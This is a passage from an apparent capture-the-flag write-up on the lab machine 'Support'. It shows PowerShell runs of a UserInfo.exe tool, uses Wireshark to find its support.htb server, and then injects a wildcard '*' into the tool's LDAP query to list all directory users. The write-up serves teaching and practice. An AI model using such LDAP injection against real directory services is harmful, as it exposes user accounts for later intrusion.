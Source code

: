 If I run either `find` or `user` with `-h`, it prints help for each. For example:

```
PS > .\UserInfo.exe user -h

Usage: UserInfo.exe user [options]

Options:
  -username           Username
```

Either command hangs for a bit and then returns an error on running:

```
PS > .\UserInfo.exe user -username 0xdf
[-] Exception: The server is not operational.
```

#### Network

Given the mention of the server, I’ll open Wireshark and run it again. It’s looking for `support.htb`:

![image-20221214163800723](https://0xdfimages.gitlab.io/img/image-20221214163800723.png)

I’ll update `C:\Windows\System32\drivers\etc\hosts` just like on Linux, and connect my VPN in this Windows host so that I can talk to Support. Now it reports that it can’t find my username:

```
PS > .\UserInfo.exe user -username 0xdf
[-] Unable to locate 0xdf. Please try the find command to get the user's username.
```

`find` requires either `-first` or `-last`:

```
PS > .\UserInfo.exe -v find
[-] At least one of -first or -last is required.
PS > .\UserInfo.exe find -first john
[-] No users identified with that query.
```

With `-v`, it prints the LDAP query it’s using:

```
PS > .\UserInfo.exe -v find -first john
[*] LDAP query to use: (givenName=john)
[-] No users identified with that query.
```

I can do some basic LDAP injection and get all users with a first name:

```
PS > .\UserInfo.exe find -first '*'
raven.clifton
anderson.damian
monroe.david
cromwell.gerard
west.laura
levine.leopoldo
langley.lucy
daughtler.mabel
bardot.mary
stoll.rachelle
thomas.raphael
smith.rosario
wilson.shelby
hernandez.stanley
ford.victoria
```
